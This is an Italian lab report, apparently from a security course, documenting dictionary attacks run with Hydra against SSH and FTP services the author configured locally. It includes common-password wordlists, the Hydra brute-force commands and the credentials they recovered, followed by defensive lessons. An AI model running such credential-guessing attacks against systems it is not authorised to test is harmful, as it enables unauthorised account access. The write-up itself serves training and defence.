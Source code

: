 # Relazione sull'Attacco di Dizionario con Hydra su SSH e FTP

Questa relazione documenta le fasi principali del lavoro svolto per simulare un attacco di dizionario su due diversi servizi di rete (SSH e FTP) utilizzando lo strumento Hydra.

---

## **Obiettivi**
1. Configurare i servizi SSH e FTP su un ambiente Kali Linux.
2. Creare liste di username e password per simulare un attacco a dizionario.
3. Utilizzare Hydra per eseguire attacchi di brute force contro i servizi configurati.
4. Verificare l'efficacia delle tecniche e riflettere sull'importanza della sicurezza delle credenziali.

---

## **Fasi dell'Esercizio**

### **1. Attacco di Dizionario su SSH**
#### **Configurazione del Servizio SSH**
1. Creazione di un nuovo utente per il test:
   ```bash
   sudo adduser test_users
   ```
   Password configurata: `testpass`.

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Verifica dell'accesso SSH con il nuovo utente:
   ```bash
   ssh test_users@192.168.50.100
   ```
   La connessione al servizio SSH è stata verificata con successo.

#### **Creazione delle Liste**
- Lista di username (`username.txt`):
  ```
  test_users
  admin
  root
  user1
  guest
  operator
  support
  manager
  developer
  service
  backup
  tester
  account
  superuser
  sysadmin
  ```
- Lista di password (`password.txt`):
  ```
  password
  123456
  admin123
  testpass
  qwerty
  letmein
  password1
  welcome
  12345678
  changeme
  root123
  toor
  iloveyou
  securepass
  password123
  ```

#### **Attacco con Hydra**
Comando utilizzato:
```bash
hydra -L username.txt -P password.txt 192.168.50.100 -t 2 -V ssh
```
Risultati:
- Hydra ha trovato le credenziali valide:
  ```
  Username: test_users
  Password: testpass
  ```

### **2. Attacco di Dizionario su FTP**
#### **Configurazione del Servizio FTP**
1. Installazione del servizio FTP:
   ```bash
   sudo apt-get install vsftpd
   ```

2. Attivazione del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

3. Creazione di un nuovo utente FTP:
   ```bash
   sudo adduser ftp_user
   ```
   Password configurata: `ftp_pass`.

4. Modifica del file di configurazione FTP (`/etc/vsftpd.conf`) per garantire che l'utente possa accedere.

#### **Creazione delle Liste**
- Lista di username (`ftp_usernames.txt`):
  ```
  ftp_user
  admin
  root
  guest
  user1
  ```
- Lista di password (`ftp_passwords.txt`):
  ```
  123456
  password
  ftp_pass
  admin123
  welcome
  ```

#### **Attacco con Hydra**
Comando utilizzato:
```bash
hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 -V ftp
```
Risultati:
- Hydra ha trovato le credenziali valide:
  ```
  Username: ftp_user
  Password: ftp_pass
  ```

---

## **Conclusioni**
1. **Efficienza di Hydra:** Lo strumento ha dimostrato di essere efficace nell'identificare credenziali valide in un ambiente controllato.
2. **Importanza delle credenziali sicure:** L'uso di username e password deboli facilita gli attacchi a dizionario e brute force. Per prevenire tali attacchi:
   - Utilizzare password complesse.
   - Configurare limiti sui tentativi di accesso.
   - Implementare misure di blocco IP dopo tentativi falliti.
3. **Lezioni apprese:**
   - La configurazione corretta dei servizi è fondamentale per la sicurezza.
   - L'uso di strumenti come Hydra aiuta a comprendere le vulnerabilità dei sistemi di autenticazione.

---

**Nota:** Le simulazioni sono state effettuate in un ambiente di laboratorio controllato per scopi educativi e non devono essere utilizzate per scopi non etici.

